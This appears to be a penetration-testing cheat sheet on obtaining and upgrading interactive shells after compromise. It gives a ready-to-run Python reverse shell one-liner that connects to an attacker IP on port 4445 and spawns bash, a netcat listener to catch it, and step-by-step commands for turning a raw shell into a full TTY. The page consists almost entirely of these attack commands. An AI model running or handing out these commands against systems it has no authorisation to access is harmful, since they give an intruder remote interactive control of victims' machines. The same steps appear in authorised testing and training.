 Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200


## Interactive Shell

See: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### Python reverse shell

Open a new python reverse shell

```bash
python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("${ATTACKER_IP}",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

In another shell :

```bash
nc -nvlp 4445
```

### Interactive shell

#### Interactive shell procedure for Linux

```bash
python -c "import pty; pty.spawn('/bin/bash')"
#OR
python3 -c "import pty; pty.spawn('/bin/bash')"
​
(press on your keyboard) Ctrl+Z
(press on your keyboard) Enter
​
#If bash shell
stty raw -echo
fg # (I won't see my keystrokes, this is normal)
(press on your keyboard) Enter
​
#If zsh shell
stty raw -echo;fg
(press on your keyboard) Enter
​
#Then adjusting the shell
export TERM=xterm-256color
#OR
export TERM=xterm
Then
stty rows 32 columns 151 #For the size, do stty size on your own terminal to determine the size
```

